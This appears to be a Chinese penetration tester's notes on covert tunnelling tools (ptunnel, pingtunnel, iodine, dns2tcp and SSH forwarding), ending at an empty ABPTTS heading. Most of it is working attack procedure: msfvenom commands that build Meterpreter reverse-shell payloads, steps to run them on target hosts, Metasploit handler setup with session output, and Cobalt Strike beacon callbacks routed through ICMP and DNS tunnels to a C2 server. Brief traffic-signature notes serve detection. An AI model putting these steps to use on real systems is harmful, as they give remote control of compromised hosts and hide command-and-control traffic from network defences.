





# 内网隧道工具使用

记录几种常用内网隧道工具的使用，按隧道类型分类，例如 ICMP、DNS 隧道等。

<!-- more -->

## 1. ICMP 隧道

### 1.1 ptunnel

> [Thorsten Alteholz / ptunnel · GitLab (debian.org)](https://salsa.debian.org/alteholz/ptunnel)

主要参数（ptunnel -h 可以查看详细信息）

```
-x ：指定ICMP隧道连接的验证密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发的目标机器的TCP端口
-p：指定ICMP隧道连一段的IP地址
```

#### 上线 msf

攻击机：开启 ptunnel 的 server，将 client 端发过来的 icmp 流量解析成 tcp 的

靶机：开启 ptunnel 的 client，监听本地的 9999 端口，ptunnel 的 client 将 9999 端口接到的流量封装成 icmp，发送到 server 端。

**1）攻击机操作：**

新生成 msf 马，然后放在靶机上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9999 -f elf -o exp
```

攻击机开启 msf 监听，此处监听的 4444 端口，后面会用到


攻击机开启 ptunnel 的 server kali 自带的，所以直接执行就可以

```
ptunnel
```



**2）靶机操作：**

靶机端执行 client

```
./ptunnel -p 100.1.1.169 -lp 9999 -da 100.1.1.169 -dp 4444

# -p   server端的IP
# -lp  本地监听的端口（只要是这个端口接到的tcp流量，全部封装成icmp,发送到server端）
# -da -dp 告诉server端，解析后的流量转发到哪个ip和端口，这里填的是msf监听的IP和端口
```

运行可能报错

解决办法：

```
sudo yum install libpcap-devel
# 安装完可能版本不对
cd /usr/lib64/
ln -s libpcap.so.1.5.3 libpcap.so.0.8
```



靶机正常执行后效果如下：


然后靶机执行 msf 马，server 端会收到消息，从 192.168.1.189 接到了 icmp 流量，解析出来后发现需要转发到 100.1.1.169 的 4444 端口


上线成功


上面的 session 看起来是攻击机的 IP，其实 ptunnel 的 server 端转发过来的，只是 ptunnel 的 server 和 msf 放在同一个攻击机上而已。

#### 流量特征

先发送 1 个长度为 70 的 request，然后又 2 个长度 70 的 reply(内容固定)，接着就一直发送长度为 1096 的 reply 包，每秒为一个周期（可以对比下面两图的时间差）,流量包： [ptunnel_2.pcap](img\Tunnel\ptunnel_2.pcap) [ptunnel_1.pcap](img\Tunnel\ptunnel_1.pcap)


### 1.2 pingtunnel

> 下面以服务端为 server，client 端为 windows 为例（反过来无法上线，不知道为啥）

#### 基础转发 tcp 流量

简单的通过 icmp 隧道转发 tcp 流量，攻击机 kali-192.168.73.98

```
./pingtunnel -type server -key 123456
```


靶机 Win-192.168.1.8

```
./pingtunnel.exe -type client -l :8888 -s 192.168.73.98 -t 192.168.73.98:7777 -tcp 1 -key 123456
```


这样通道就建立起来，192.168.1.8 的 8888 端口收到的 tcp 流量，都会被转为 icmp 流量发给 server，然后在 server 端解析成 tcp（解析到 7777 端口）

假如这样把 tcp 流量发给 192.168.1.8 的 8888



server 端可以收到并解析出来


#### 转发 TCP 上线 msf

- 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

- ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
# 该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
# icmpserver_ip 192.168.1.10
# c2_server_ip 192.168.1.10
```

生成反向 payload 的 meterpreter 并上传到 ICMP 隧道客户端执行即可上线

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe
# 这里的lhost和lport为icmp客户端监听ip和端口
```

启动 msf 监听，等待 meterpreter 执行上线

```
# 这里的lhost和lport为icmp客户端转发到的ip和端口

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:7777
[*] Sending stage (200774 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.10:7777 -> 192.168.1.10:44832) at 2024-01-15 02:26:28 -0500

meterpreter > getuid
Server username: ECHO0D-WIN\echo0d

```


#### 转发 TCP 上线 cs

- 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1

# 该命令的意思是icmp隧道客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
```

- cobaltstrike 创建 listener
  https host 和 https port(c2)为 ICMP 隧道客户端的监听 IP 和端口
  https port(bind)为转发目的地址的端口

- 生成反向 payload 的 beacon

- 上传生成的 beacon 到 ICMP 隧道客户端执行，成功通过反向 ICMP 隧道上线

#### 转发 socks 上线 msf（失败）

> 按理说是这样的，但是流量里还是有 tcp

- 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```shell
./pingtunnel -type server -noprint 1 -nolog 1
```

ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
# icmpserver_ip 192.168.1.10
```

生成支持 socks5 代理的反向 payload 的 meterpreter 并上传到 ICMP 隧道客户端执行即可上线

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=c2_server_ip LPORT=8443 HttpProxyType=SOCKS HttpProxyHost=127.0.0.1 HttpProxyPort=6688 -f exe -o meterpreter.exe
# c2_server_ip 192.168.1.10
```

启动 msf 监听，等待 meterpreter 执行上线

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6688
lport => 6688
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:6688
[*] Sending stage (200774 bytes) to 192.168.1.11
[*] Meterpreter session 4 opened (192.168.1.10:6688 -> 192.168.1.11:59957) at 2024-01-16 02:17:38 -0500

meterpreter > getuid
Server username: ECHO0D-WIN\echo0d
```


此处不确定是否成功，因为夹杂了 TCP


#### 流量特征

icmp 包长度突然变化，就是有 tcp 流量要发


以及突然流量包数量变多



## 2. DNS 隧道

### 2.1 iodine

> 以下的服务器和域名均来自腾讯云
>
> 服务器：https://cloud.tencent.com/product/cvm?from=10680
>
> 域名解析：https://cloud.tencent.com/product/cns?from=10680

iodine 是基于 C 语言开发的，分为服务端和客户端。iodine 支持转发模式和中继模式。其原理是：通过 TAP 虚拟网卡，在服务端建立一个局域网，在客户端也通过 TAP 建立一个虚拟网卡，两者通过 DNS 隧道连接，处于同一个局域网(可以通过 ping 命令通信)。在客户端和服务器之间建立连接后，客户机上会多出一块名为 dns0 的虚拟网卡。

与同类工具相比，iodine 具有如下特点：

> 参考https://cloud.tencent.com/developer/article/1937092

- 不会对下行数据进行编码
- 支持多平台(Linux、Windows、MacOS)
- 支持 16 个并发连接
- 支持强密码机制
- 支持同网段隧道 IP 地质(不同于服务器一客户端网段)
- 支持多种 DNS 记录类型
- 提供了丰富的隧道质量检测措施

#### 1. 部署域名解析

> https://console.dnspod.cn/

首先，用一台公网的 Linux 系统的 VPS 作为 C&C 服务器，并准备好一个可以配置的域名(这里我们假设是`dnslog1.site`)。然后配置域名的记录，如下：


创建记录 A，将自己的域名`dns.dnslog1.site`解析到 VPS 服务器地址。然后创建 NS 记录，将 `dns2tcp.dnslog1.site `指向 `dns.dnslog1.site `。

- 第一条 A 类解析是在告诉域名系统，`dns.dnslog1.site`的 IP 地址是 `xx.xx.xx.xx` 。
- 第二条 NS 解析是在告诉域名系统，想要知道`dns2tcp.dnslog1.site`的 IP 地址，就去问`dns.dnslog1.site` 。

**验证域名解析设置是否成功**

在随便一台电脑上 ping 域名`dns.dnslog1.site`，若能 ping 通，且显示的 IP 地址是我们配置的 VPS 的地址，说明第一条 A 类解析设置成功并已生效。

然后在我们的 VPS 上执行以下命令监听 UDP 53 端口

```javascript
tcpdump -n -i eth0 udp dst port 53
```

在任意一台机器上执行 `nslookup dns2tcp.dnslog1.site `命令，如果在我们的 VPS 监听的端口有查询信息，说明第二条记录设置成功。

#### 2. 安装并启动服务端

提前检查 VPS 服务器防火墙的 53 端口是否打开：


这里用的服务端是 Centos7 系统，可以执行安装命令：

```
yum -y install iodine
```

如果是 Windows 系统，可以安装编译好的对应版本的 iodine。

执行以下命令启动服务端：

```
iodined -f -c -P root@123456 172.16.10.1 dns2tcp.dnslog1.site -DD
    -f：在前台运行
    -c：禁止检查所有传入请求的客户端IP地址
    -P：指定密码
    -D：指定调试级别。-DD指第二级，D的数量随等级增加
    这里的172.16.10.1是自定义的局域网虚拟IP地址
```


服务端启动成功后，VPS 上多了一块 dns0 的网卡，ip 为我们设置的 172.16.10.1


#### 3. 安装并启动客户端

**Windows 系统**

如果是 Windows 系统，直接执行下面命令启动客户端，但是启动的过程中，会遇到杀毒软件的报毒，并且需要管理员权限执行命令才可以启动。

```
iodine.exe -f -P root@123456 dns2tcp.dnslog1.site
```

**Linux 系统**

如果是 Linux 系统，先安装 iodine。上传 iodlie 客户端到目标主机，解压，进入目录安装

```
cd iodine-0.7.0/
make && make install
```

kali 默认安装了 iodine，执行下面命令连接服务端(需要 root 权限)，如图连接成功。

```
iodine -f -P root@123456 dns2tcp.dnslog1.site
```


连接成功后，客户端上新建了一个 dns0 的网卡，IP 地址为 172.16.10.2


然后 ping 服务端地址


#### 4. 使用 DNS 隧道

客户端和服务端连接成功后，由于客户端和服务端处在一个逻辑的局域网中，所以可以直接通。

**服务端 SSH 连接客户端**



**客户端 SSH 连接服务端**


---

### 2.2 dns2tcp

dns2tcp 是一个利用 DNS 隧道转发 TCP 连接的工具，使用 C 语言开发。

#### 1. 部署域名解析


**验证域名解析设置是否成功**，步骤同上。

#### 2. 安装并启动服务端

工具下载地址：https://github.com/alex-sector/dns2tcp

提前检查 VPS 服务器防火墙的 53 端口是否打开，将下载的工具上传到 VPS，依次执行

```
unzip dns2tcp-master.zip
cd dns2tcp-master
./configure
make
make install
```

准备配置文件（腾讯云服务器不给实际网卡分配公网 IP，所以要监听 0.0.0.0）：

```
vim /etc/dns2tcpd.conf

listen = 0.0.0.0
port = 53
user = nobody
chroot = /var/empty/dns2tcp/
domain = a.dnslog1.site
resources = ssh:127.0.0.1:22,smtp:127.0.0.1:25,http:127.0.0.1:8080
```

完成后运行服务端：

```
dns2tcpd  -F -d 1 -f /etc/dns2tcpd.conf
```


#### 3. 安装并启动客户端

kali 默认安装了 dns2tcp，测试连接：

```
dns2tcpc -z a.dnslog1.site <服务器IP>
```

其中<服务器 IP>可选，服务端所在 IP（DNS 服务器 IP）。不写将使用中继模式，否则使用直连模式，如果提示：

```
Available connection（s）:
        ssh
        smtp
        http
```

表示连接可用！

#### 4. 使用 DNS 隧道

```
dns2tcpc -l 4444 -r ssh  -z a.dnslog1.site <服务器IP> -c -d 3
```

-c 表示启用数据压缩；-d 表示启动调试，3 为调试等级；-l 表示监听本地端口，4444 为端口名；-r 为使用服务端上的哪个资源，ssh 为资源名；-z 后为前面配置的 NS 记录的域名。


然后 ssh 连接本地 4444 端口就相当于连接服务端：

```
ssh root@127.0.0.1 -p 4444
```


---

**若需要将内网 msf 流量转发到外网：**

参考：https://blog.csdn.net/redwand/article/details/112727816

通过 dns 隧道嵌套 ssh 隧道实现本地端口转发：

```
ssh -CfNg -L 6666:<服务器IP>:6666 root@127.0.0.1 -p 4444
```


生成木马，监听在客户端 192.168.13.188 的 6666 端口上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.13.188 LPORT=6666 -f elf > shell.elf
```

服务器打开 msf，监听 6666 端口：

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > run
```

在内网的主机(这里选择另一台虚拟机 192.168.13.100)运行 shell.elf

```
chmod 777 shell.elf
./shell.elf
```

成功得到上线 meterpreter shell：


## 3. SSH 隧道

**本地转发：**

用法 1：本地端口映射到远程。HostB 上启动一个 PortB 端口，映射到 HostC:PortC 上，在 HostB 上运行

```
HostB$ ssh -CNfg -L PortB:HostC:PortC user@HostC
```

这时访问 HostB:PortB 相当于访问 HostC:PortC（和 iptable 的 port-forwarding 类似）。

用法 2：本地端口通过跳板映射到其他机器。HostA 上启动一个 PortA 端口，通过 HostB 转发到 HostC:PortC 上，在 HostA 上运行：

```
HostA$ ssh -CNfg -L PortA:HostC:PortC  user@HostB
```

这时访问 HostA:PortA 相当于访问 HostC:PortC。

两种用法的区别是，第一种用法本地到跳板机 HostB 的数据是明文的，而第二种用法一般本地就是 HostA，访问本地的 PortA，数据被 ssh 加密传输给 HostB 又转发给 HostC:PortC。

**远程转发：**让远端启动端口，把远端端口数据转发到本地。

HostA 将自己可以访问的 HostB:PortB 暴露给外网服务器 HostC:PortC，在 HostA 上运行：

```
HostA$ ssh -CNfg -R HostC:PortC:HostB:PortB  user@HostC
#HostA的ssh服务端监听7777, 将收到的tcp数据包通过连接到HostB的ssh隧道，转发到HostC:PortC，效果是访问HostA本地的7777就相当于访问HostC:PortC
```

那么链接 HostC:PortC 就相当于链接 HostB:PortB。使用时需修改 HostC 的 /etc/ssh/sshd_config，添加：

```
GatewayPorts yes
```

相当于-L 参数区别：比如 HostA 和 HostB 是同一个内网下的两台可以互相访问的机器，HostC 是外网跳板机，HostC 不能访问 HostA，但是 HostA 可以访问 HostC。那么通过在内网 HostA 上运行 `ssh -R` 告诉 HostC，创建 PortC 端口监听，把该端口所有数据转发给我（HostA），我会再转发给同一个内网下的 HostB:PortB。

同内网下的 HostA/HostB 也可以是同一台机器，换句话说就是内网 HostA 把自己可以访问的端口暴露给了外网 HostC。

**动态转发：**socks 代理

```
ssh -CNfg -D 127.0.0.1:7777 root@192.168.1.1
# ssh客户端监听127.0.0.1:7777开启socks服务，将收到的socks数据包通过连接到192.168.1.1的ssh隧道转发到ssh服务端，再由ssh服务端转发到目标地址，也就是只要知道一个内网主机的密码，就可以用它上面的ssh服务转发流量了。
```

构建 ssh 隧道的常用参数:

```
-C 压缩传输，提高传输速度
-f 后台执行数据传输
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发，即SOCKS代理
-p 指定ssh连接端口
```

## 4. TCP over HTTP

### 4.1 ABPTTS
